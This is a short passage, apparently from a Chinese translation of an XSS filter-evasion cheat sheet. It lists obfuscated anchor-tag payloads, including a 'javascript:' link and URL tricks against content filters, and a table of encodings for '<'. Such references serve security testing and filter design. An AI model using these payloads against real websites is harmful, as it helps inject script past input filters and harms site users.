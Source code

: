 ```
<A HREF="http://google:ha.ckers.org">XSS</A>
```

移除别名结合上面的 url。移除 "www." 将节省四个字符。

```
<A HREF="http://google.com/">XSS</A>
```

#### 绝对 DNS 用额外的点

```
<A HREF="http://www.google.com./">XSS</A>
```

#### JavaScript link location

```
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

针对内容替换的攻击向量假设 " [http://www.google.com/](http://www.google.com/) "会被替换为空。我确实使用了一个简单的攻击向量去针对特殊文字过滤依靠过滤器本身。这是一个例子去帮助创建向量。（IE:"java script:"被替换为"java script:", 它是仍可以工作在 IE, 使用安全模块的 Netscape 8.1+ 和 Opera）

```
<A HREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A>
```

## 字符编码表

再付 "<" 在 html 或是 javascript 中所有可能的编码形式。它们绝大多数是无法正常渲染的，但是可以在上文中某些情景下得到渲染。

```
<
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060
&#00060
&#000060
&#0000060
&#60;
&#060;
&#0060;
&#00060;
&#000060;
&#0000060;
&#x3c
&#x03c
&#x003c
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;
&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
```